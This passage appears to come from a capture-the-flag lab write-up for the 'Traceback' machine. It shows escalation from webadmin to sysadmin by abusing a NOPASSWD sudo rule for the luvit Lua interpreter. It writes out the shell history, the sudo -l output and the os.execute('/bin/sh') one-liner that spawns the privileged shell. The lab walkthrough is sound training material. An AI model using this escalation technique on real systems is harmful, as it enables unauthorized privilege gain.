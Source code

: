 The bash history below suggests that we can execute luvit as sysadmin.
```
$ cat .bash_history
ls -la
sudo -l
nano privesc.lua
sudo -u sysadmin /home/webadmin/luvit privesc.lua
logout
```
Let's confirm by checking our sudo rights.
```
$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```
Yes, we can run luvit as sysadmin without a password. Sounds good.

**What is luvit?**

From its [homepage](https://luvit.io/), we learn that it is like Node.js but written in lua.

What's interesting here is that:

>"This (luvit) can be used to run lua scripts as standalone servers, clients, or other tools."

Since we can run lua scripts as syadmin, we can abuse this right to obtain the privileges of sysadmin.

Using the help flag, we can learn more about the usage of luvit.

```
$ sudo -u sysadmin /home/sysadmin/luvit -h
Usage: /home/sysadmin/luvit [options] script.lua [arguments]

  Options:
    -h, --help          Print this help screen.
    -v, --version       Print the version.
    -e code_chunk       Evaluate code chunk and print result.
		<SNIP>
```
With the -e flag, we can evaluate lua code. So the next step is to learn lua.

**Learning lua**

Google `how to execute system commands with lua`, and you will find the `os.execute` function.

Let's use that to get a shell with sysadmin's privileges.

```
$ sudo -u sysadmin /home/sysadmin/luvit -e 'os.execute("/bin/sh")'
sh: turning off NDELAY mode
whoami
sysadmin
pwd
/var/www/html
cd ~
ls
luvit
user.txt
cat user.txt
```
And we find the user flag in sysadmin's home folder.

